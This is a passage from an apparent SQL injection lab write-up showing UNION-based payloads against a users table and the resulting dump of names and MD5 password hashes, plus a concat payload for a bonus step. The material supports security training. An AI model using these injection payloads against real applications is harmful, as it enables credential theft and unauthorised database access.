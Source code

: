     - The payload was `1' UNION select first_name, password from users where '1' = '1`.
     
    - The results will display data from two separate queries:

       - The results from the value of `1`.

       - The first name from the database (displayed in the "First name" field) and the password field from the database (displayed in the "Surname" field), for all the other users:
    
          ```
            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: admin
            Surname: admin

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: admin
            Surname: 5f4dcc3b5aa765d61d8327deb882cf99

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Gordon
            Surname: 575e22bc356137a41abdef379b776dba

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Hack
            Surname: 97b9308f6a1f6a8524a91450dca473fa

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Pablo
            Surname: 8c7c9b1149e9de712b9e5abab45d700c

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Bob
            Surname: 4a02ce029a840716c61ee8fcda10158e`    
          ```

    - This resembles the results of the DB Fiddle query: 
  
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

5. **Bonus:** Use a single payload to pull the first name, last name, and password from the table. 

    - The fifth query was `select first_name, last_name from users where user_id = '1' UNION select concat(first_name,last_name), password from users where '1' = '1'`.
        
    - The payload was `1' UNION select concat(first_name,last_name), password from users where '1' = '1`.
     